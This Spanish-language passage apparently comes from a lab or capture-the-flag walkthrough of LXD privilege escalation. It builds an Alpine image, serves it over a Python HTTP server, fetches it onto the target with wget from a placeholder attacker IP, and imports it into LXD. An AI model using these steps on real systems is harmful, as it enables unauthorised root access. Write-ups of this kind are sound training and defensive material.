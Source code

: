 ```bash
sudo ./build-alpine
```

Una vez completada la compilación, se creará un archivo .tar.gz

![Imagen047](47.jpeg)


Ahora vamos a pasar este archivo .tar.gz a la máquina objetivo. Vamos a montarnos un servidor HTTP con python como hemos hecho varias veces

```bash
python3 -m http.server [Puerto]
```

En la máquina de destino ahora vamos a descargarnos el archivo para ello utilizamos el siguiente comando. Antes de hacerlo, nos metemos en el directorio /tmp 

```bash
wget [IPatacante]:[Puerto]/ruta/archivo.tar.gz
```

![Imagen048](48.jpeg)

Una vez creada la imagen, la podemos agregar como imagen a LXD de la siguiente manera dándole un alias para usarla de forma más sencilla

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias [alias]
```

Para verificar la lista de imágenes podemos utilizar el siguiente comando:

```bash
lxc image list
```

![Imagen049](49.jpeg)

